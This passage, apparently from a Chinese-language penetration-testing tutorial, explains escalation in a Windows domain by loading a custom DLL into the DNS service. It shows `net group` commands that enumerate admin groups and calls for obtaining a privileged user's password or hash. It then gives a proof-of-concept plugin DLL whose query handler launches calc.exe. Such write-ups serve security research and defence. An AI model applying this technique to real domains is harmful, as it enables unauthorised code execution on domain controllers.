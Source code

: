 ```
net group "Domain Admins" /domain
```

查看Enterprise Admins组内的用户：

```
net group "Enterprise Admins" /domain
```

### 2、获得关键用户的口令或者hash

需要获得DnsAdmins，Domain Admins或者Enterprise Admins组内任一用户的口令或者hash

### 3、准备Payload.dll

需要定义三个导出函数：

- DnsPluginInitialize
- DnsPluginCleanup
- DnsPluginQuery

定义导出函数可以参考之前开源的工程：

https://github.com/3gstudent/Add-Dll-Exports

这里使用def文件的方式声明导出函数，测试代码如下：

dllmain.cpp：

```
DWORD WINAPI DnsPluginInitialize(PVOID a1, PVOID a2)
{
	return 0;
}

DWORD WINAPI DnsPluginCleanup()
{
	return 0;
}

DWORD WINAPI DnsPluginQuery(PVOID a1, PVOID a2, PVOID a3, PVOID a4)
{
	WinExec("calc.exe", SW_SHOWNORMAL);
	return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
	DWORD  ul_reason_for_call,
	LPVOID lpReserved
)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

